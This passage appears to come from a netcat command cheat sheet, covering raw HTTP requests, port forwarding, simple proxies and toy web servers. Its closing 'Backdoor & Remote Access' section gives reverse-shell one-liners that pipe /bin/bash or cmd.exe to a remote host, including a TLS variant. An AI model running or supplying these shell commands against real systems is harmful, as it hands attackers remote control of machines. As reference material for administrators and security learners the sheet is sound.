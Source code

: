 ```bash
```

### Custom Banners
```bash
# Send custom request
printf "GET / HTTP/1.1\r\nHost: %s\r\n\r\n" target.com | nc target.com 80

# Send HTTP HEAD request
echo "HEAD / HTTP/1.0\r\n\r\n" | nc target.com 80
```

## Port Forwarding & Proxying

### Simple Port Forwarding
```bash
# Forward local port to remote port
nc -l -p 8080 | nc target.com 80

# Bidirectional forwarding
mkfifo /tmp/pipe
nc -l -p 8080 < /tmp/pipe | nc target.com 80 > /tmp/pipe
```

### Proxy Server
```bash
# Simple HTTP proxy
while true; do nc -l -p 8080 -c "nc google.com 80"; done

# Proxy with logging
nc -l -p 8080 | tee proxy.log | nc target.com 80
```

## Web Server

### Simple HTTP Server
```bash
# Basic HTTP server
while true; do nc -l -p 8080 -e echo -e "HTTP/1.1 200 OK\r\n\r\nHello World"; done

# Serve files
while true; do nc -l -p 8080 -c "cat index.html"; done

# Serve directory listing
nc -l -p 8080 -c "ls -la"
```

## Backdoor & Remote Access

### Reverse Shell
```bash
# Connect back to listener
nc target.com 8080 -e /bin/bash

# Connect with TLS encryption
nc target.com 8080 -e /bin/bash --ssl

# Reverse shell from Windows
nc target.com 8080 -e cmd.exe
```

